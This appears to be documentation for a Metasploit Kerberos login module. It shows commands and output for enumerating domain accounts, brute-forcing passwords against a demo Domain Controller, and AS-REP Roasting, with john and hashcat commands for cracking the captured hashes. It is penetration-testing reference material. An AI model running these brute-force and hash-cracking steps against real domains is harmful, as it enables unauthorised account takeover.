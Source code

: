 ## Kerberos Login/Bruteforce

The `auxiliary/scanner/kerberos/kerberos_login` module can verify Kerberos credentials against a range of machines and
report successful logins. If you have loaded a database plugin
and connected to a database this module will record successful
logins and hosts so you can track your access.

Kerberos accounts which do not require pre-authentication will
have the TGT logged for offline cracking, this technique is known as AS-REP Roasting.

This module is able to identify the following information from the KDC: 

- Valid/Invalid accounts
- Locked/Disabled accounts
- Accounts with expired passwords, when the password matches
- AS-REP Roastable accounts

## Target

To use the `kerberos_login` module, make sure you are able to connect to the
Kerberos service on a Domain Controller.

## Scenarios

### Creating a single Kerberos ticket (TGT)

To create a single Kerberos ticket (TGT), set the username and password options:

```
msf6 auxiliary(scanner/kerberos/kerberos_login) > run rhost=192.168.123.133 domain=DEMO.local username=basic_user password=password verbose=true
[*] Using domain: DEMO.LOCAL - 192.168.123.133:88   ...
[+] 192.168.123.133 - User found: "basic_user" with password password
[*] Auxiliary module execution completed
```

### Auth Brute

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user
accounts and additionally bruteforcing passwords:

Create a new `./users.txt` file and `./wordlist.txt`, then run the module:

```
msf6 auxiliary(gather/kerberos_enumusers) > run rhost=192.168.123.133 domain=DEMO.local user_file=./users.txt pass_file=./wordlist.txt verbose=true
[*] Reloading module...

[*] Using domain: DEMO.LOCAL - 192.168.123.133:88   ...
[+] 192.168.123.133 - User: "basic_user" is present
[*] 192.168.123.133 - User: "basic_user" wrong password invalid2
[*] 192.168.123.133 - User: "basic_user" wrong password p4$$w0rd
[*] 192.168.123.133 - User: "basic_user" wrong password test_password
[+] 192.168.123.133 - User found: "basic_user" with password password. Hash: $krb5asrep$23$basic_user@DEMO.LOCAL:959b983f9cffc093002d9cd8a20...etc...
[*] 192.168.123.133 - User: "foo" user not found
[*] 192.168.123.133 - User: "foo_bar" user not found
[+] 192.168.123.133 - User: "Administrator" is present
[*] 192.168.123.133 - User: "Administrator" wrong password invalid2
[*] 192.168.123.133 - User: "Administrator" wrong password p4$$w0rd
[*] 192.168.123.133 - User: "Administrator" wrong password test_password
[*] 192.168.123.133 - User: "Administrator" wrong password password
[+] 192.168.123.133 - User: "no_pre_auth" does not require preauthentication. Hash: $krb5asrep$23$no_pre_auth@DEMO.LOCAL:a714f0553589cbd78...etc...
[+] 192.168.123.133 - User: "admin" is present
[*] 192.168.123.133 - User: "admin" wrong password invalid2
[*] 192.168.123.133 - User: "admin" - Kerberos Error - KDC_ERR_KEY_EXPIRED (23) - Password has expired - change password to reset
[*] 192.168.123.133 - User: "admin" wrong password test_password
[*] 192.168.123.133 - User: "admin" wrong password password
[*] Auxiliary module execution completed
```

### ASREPRoasting

Accounts that have `Do not require Kerberos preauthentication` enabled, will receive an ASREP response with a ticket-granting-ticket present.
The technique of cracking this ticket offline is called ASREPRoasting.

Cracking ASREP response with John:

```
john ./hashes.txt --wordlist=./wordlist.txt --format:krb5asrep
```

Cracking ASREP response with Hashcat:

```
hashcat -m 18200 -a 0 ./hashes.txt ./wordlist.txt
```

You can see previously cracked creds with:

```
creds -v
```

## Options

The `kerberos_login` module only requires the `RHOST`, `DOMAIN` and
`USER_FILE` options to run.

**The DOMAIN option**

This option is used to specify the target domain. If the domain name is
incorrect an error is returned and domain user account enumeration will fail.

An example of setting DOMAIN:

```
set DOMAIN [domain name]
```

**The USER_FILE option**

This option is used to specify the file containing a list of user names
to query the Domain Controller to identify if they exist in the target domain
or not. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The PASS_FILE option**

If you happen to manage all the found passwords in a separate file, then this option would be
suitable for that. One per line.

```
set PASS_FILE [path to file]
```

**The USERPASS_FILE option**

If each user should be using a specific password in your file, then you can use this option. One
username/password per line:

```
set USERPASS_FILE [path to file]
```

**The DB_ALL_CREDS option**

This option allows you to reuse all the user names and passwords collected by the database:

```
set DB_ALL_CREDS true
```

**The DB_ALL_PASS option**

This option allows you to reuse all the passwords collected by the database.

```
set DB_ALL_PASS true
```

**The DB_ALL_USERS option**

This option allows you to reuse all the user names collected by the database.

```
set DB_ALL_USERS true
```

**The Timeout option**

This option is used to specify the TCP timeout i.e. the time to wait
before a connection to the Domain Controller is established and data read.

An example of setting Timeout:

```
set Timeout [value in seconds]
```
